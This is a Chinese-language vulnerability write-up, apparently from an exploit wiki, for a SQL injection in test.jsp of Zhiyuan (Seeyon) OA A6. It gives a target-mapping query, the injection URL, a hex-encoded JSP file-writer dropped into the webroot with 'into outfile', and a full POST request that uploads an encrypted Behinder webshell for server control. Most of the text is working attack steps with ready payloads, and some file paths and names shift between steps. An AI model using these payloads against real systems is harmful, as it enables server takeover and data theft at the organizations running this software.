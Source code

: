 # 致远OA A6 test.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问URL

```plain
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```



![img](/assets/PeiQi-Wiki/img/zhiyuan-25.png)



返回了当前使用的数据库, 要想写入shell需要知道写入的路径

![img](/assets/PeiQi-Wiki/img/zhiyuan-26.png)



这里得到路径 `D:\Program Files\UFseeyon\OA\mysql\bin..\`

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件



```sql
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
```



```sql
/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27E:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp%27
```



![img](/assets/PeiQi-Wiki/img/zhiyuan-27.png)



显示上图则上传成功，访问 test_upload.jsp 为空白不报错页面不存在就是上传成功

在发送请求包上传webshell，这里上传冰蝎

![img](/assets/PeiQi-Wiki/img/zhiyuan-28.png)



```plain
POST /yyoa/peiqi_upload.jsp?f=testwebshell.jsp

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```



连接木马

![img](/assets/PeiQi-Wiki/img/zhiyuan-29.png)